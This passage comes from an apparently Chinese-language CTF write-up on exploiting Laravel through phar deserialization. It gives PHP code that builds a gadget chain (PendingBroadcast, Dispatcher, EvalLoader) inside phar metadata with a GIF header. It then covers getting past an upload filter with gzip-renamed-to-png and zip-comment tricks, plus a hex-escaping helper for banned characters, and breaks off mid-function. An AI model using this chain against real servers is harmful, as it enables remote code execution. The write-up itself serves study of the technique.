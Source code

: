 ```
    //该dispatcher调用EvalLoader的load方法
    $dispatcher = new Illuminate\Bus\Dispatcher(array($evalloader,"load"));
    //第一个参数为调用Dispatcher类的dispact方法,第二个参数是实现ShouldQueue的$command
    $exp = new Illuminate\Broadcasting\PendingBroadcast($dispatcher,$broadcastevent);

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar-&gt;startBuffering();
    $phar-&gt;setStub("GIF89a"."&lt;?php __HALT_COMPILER(); ?&gt;"); //设置stub，增加gif文件头
    $phar-&gt;setMetadata($exp); //将自定义meta-data存入manifest
    $phar-&gt;addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar-&gt;stopBuffering();
`}`
```

不过即使是添加`gif`头，还是会有`&lt;?php __HALT_COMPILER(); ?&gt;`存在，并且必须以`__HALT_COMPILER();?&gt;`来结尾，否则phar扩展将无法识别这个文件为phar文件

这里先介绍**两种姿势**:

**姿势1**

将phar文件进行gzip压缩后在修改为png文件后缀，当进行完gzip压缩后就没有这些字符了，从而就能够进行绕过，至于为什么将phar文件gzip压缩后还能反序列化成功，这里**在后文会进行分析**

[![](https://p2.ssl.qhimg.com/t015b9154eef339a92f.png)](https://p2.ssl.qhimg.com/t015b9154eef339a92f.png)

**姿势2**

我们可以将phar的内容写进压缩包注释中，也同样能够反序列化成功，压缩为zip也会绕过该正则

```
$phar_file = serialize($exp);
    echo $phar_file;
    $zip = new ZipArchive();
    $res = $zip-&gt;open('1.zip',ZipArchive::CREATE); 
    $zip-&gt;addFromString('crispr.txt', 'file content goes here');
    $zip-&gt;setArchiveComment($phar_file);
    $zip-&gt;close();
```

这里用姿势1得到phar包再gzip压缩后将其改名为png上传后，在通过`/image`路由来触发`phar`反序列化:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01b7f5f892f3a721c1.png)

这里在利用姿势2进行演示，不过在这里写入zip注释的时候,由于这里拼接时是这用进行拼接的

```
eval("?&gt;".$str);
```

因此想要利用肯定会出现被ban的字符`&lt;?php`,这里能够通过将序列化数据小写的s转换成大写S后，将之后的关键词通过16进制进行填充从而绕过,这个考点在绕过%00时也曾出现过:

```
//bypass %00
function process_serialized($serialized) `{`
        $new = '';
        $last = 0;
        $current = 0;
        $pattern = '#\bs:([0-9]+):"#';

        while(
            $current &lt; strlen($serialized) &amp;&amp;
            preg_match(
                $pattern, $serialized, $matches, PREG_OFFSET_CAPTURE, $current
            )
```